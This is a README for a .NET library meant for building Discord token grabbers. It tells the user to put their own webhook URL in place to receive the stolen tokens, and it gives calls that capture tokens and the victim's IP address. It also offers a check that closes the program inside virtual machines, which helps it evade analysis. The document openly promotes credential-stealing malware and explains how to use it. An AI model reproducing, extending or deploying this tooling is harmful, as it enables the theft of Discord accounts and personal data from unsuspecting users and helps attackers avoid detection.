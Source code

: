 # Discord-Token-Grabber-Library
A .NET library developed to create Discord token and other information grabbers with ease.

# Usage
Replace all occurances of "webhook-here" to your own server's webhook URL, this is the webhook which will be displaying the captured tokens.

Build the DLL and reference it in your project(s): ```using Furious;```

#### To grab tokens call
```Furious.Grabber.Start();```
#### To grab tokens + IP address
```Furious.Grabber.Start(true);```
#### To check for a VM before attempting to grab anything
```Furious.Grabber.Start(grabIP: true, checkForVM: true);``` - if a VM is detected, the application will close instantly.


# Requests
I do not know JS, I got it to work with luck, for those that do, the JS in the text files may look extremely messy. If you're able to optimise/clean-up the code I would greatly appreciate it.
